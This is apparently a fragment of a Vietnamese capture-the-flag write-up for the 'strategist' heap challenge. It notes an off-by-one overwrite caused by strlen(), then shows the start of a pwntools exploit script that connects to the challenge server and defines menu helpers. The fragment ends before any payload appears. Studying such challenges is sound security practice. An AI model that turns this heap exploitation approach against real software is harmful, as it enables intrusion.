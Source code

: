 Bug nằm đây strlen() nó sẽ đếm đến khi nào gặp ký tự null nên ta có thể ghi đề 1 byte

    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *
    from ctypes import cdll



    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./strategist_patched', checksec=False)
    libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc


    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* create_plan+173
            b* show_plan+252
            b* edit_plan+96
            b* edit_plan+251
            b* delete_plan+213
            c
            ''')
            input()

    if args.remote:
        p = remote('host3.dreamhack.games',18525)  
    else:
        p = process(exe.path) 






    def create(size,data):
        sla(b'> ',b'1')
        sla(b'> ',str(size).encode())
        sa(b'> ',data)
